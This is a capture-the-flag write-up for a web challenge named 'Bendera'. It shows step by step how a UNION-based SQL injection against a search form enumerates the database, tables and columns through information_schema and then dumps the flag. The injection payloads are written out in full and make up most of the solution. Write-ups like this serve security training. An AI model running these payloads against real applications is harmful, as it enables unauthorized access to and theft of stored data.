






# Bendera

> Category: Web Exploitation🕸️




## 🔍 Overview

Visiting the page shows us the search form.




## ✨ Solution

Try to view the source page:



Looks like we will need to exploit using SQLI here. Try to veiw the <code>waf_config.txt</code>:



From this page, we can sure it is an SQLI challenge here, and we can try to bypass the waf easily here by:
```
' order by 1 #
```

Keep trying to find the number of column until it shows us the error. The error shows up when we inject:
```
' order by 4 #
```



It means that the number of rows are 3. Now we can try to find the name of the database:
```
' Union Select 1, 2, database();#
```


From here, it looks like the name of the database is <code>bahtera</code>. Now try to enumerate the name of the table:
```
' Union Select 1, 2, group_concat(table_name) from information_schema.tables where table_schema="bahtera";#
```



Table name <code>tokoh</code> found. After that, enumerate the column name inside the table <code>tokoh</code>:
```
' Union Select 1, 2, group_concat(column_name) from information_schema.columns where table_name="tokoh";#
```


Looks like there are three columns found, which are <code>bendera</code>, <code>id</code> and <code>nama</code>. Try to dump the content inside column <code>bendera</code>:
```
' Union Select 1, 2, group_concat(bendera) from tokoh;#
```


<details><summary><b>🏳️ Flag:</b></summary><b>3108{d4_jUmP@_b3nD3eR4_k3??}</b></details>


## 📚 References:

-  https://github.com/Yokonakajima11/HackTheBox?tab=readme-ov-file#sql-injection